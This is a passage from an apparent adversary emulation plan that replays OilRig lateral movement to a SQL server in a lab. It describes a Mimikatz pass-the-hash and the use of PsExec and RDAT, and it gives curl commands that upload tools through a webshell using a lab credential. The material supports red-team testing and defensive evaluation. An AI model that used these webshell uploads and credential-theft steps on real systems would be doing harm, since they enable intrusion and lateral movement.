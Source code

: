 ### :moyai: Source Code
*  Plink command line tool: [Plink](Plink.)

<br>

### :microscope: Cited Intelligence
*  Plink: https://unit42.paloaltonetworks.com/unit42-striking-oil-closer-look-adversary-infrastructure/
*  SSH: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  RDP: https://go.crowdstrike.com/rs/281-OBQ-266/images/Report2020CrowdStrikeGlobalThreatReport.pdf
*  RDP: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>


## Step 8 - Lateral Movement to the SQL Server

### :microphone: Voice Track

Step 8 emulates OilRig using the credentials collected for the user `tous` in 
the previous step to move laterally to the SQL server. 

First, the webshell is used to download PsExec, RDAT, and a newly named 
Mimikatz to disk. Through the tunneled RDP, an elevated Command Prompt is opened 
and, using the NTLM hash for `tous` from the credential dump, Mimikatz pass the 
hash is executed to spawn a second shell as `tous` on `WATERFALLS (10.1.0.6)`. 
As `tous`, RDAT is copied over to `ENDOFROAD (10.1.0.7)`, then PsExec is executed 
to get a shell on `ENDOFROAD (10.1.0.7)`

---

### :biohazard: Procedures

Download psexec to `WATERFALLS (10.1.0.6)` as `C:\Windows\System32\ps.exe`

```bash
# OilRig has downloaded PsExec as ps.exe

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\System32' -F "vir=false" -F "nen=ps.exe" -F 'f1=@PsExec.exe' https://10.1.0.6/ews/contact.aspx
```

Download RDAT to `WATERFALLS (10.1.0.6)` as `Nt.dat`

```bash
# OilRig has saved RDAT to disk as Nt.dat

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\Temp' -F "vir=false" -F "nen=Nt.dat" -F 'f1=@RDAT.exe' https://10.1.0.6/ews/contact.aspx
```

Redownload Mimikatz to `WATERFALLS (10.1.0.6)` as `mom64.exe`
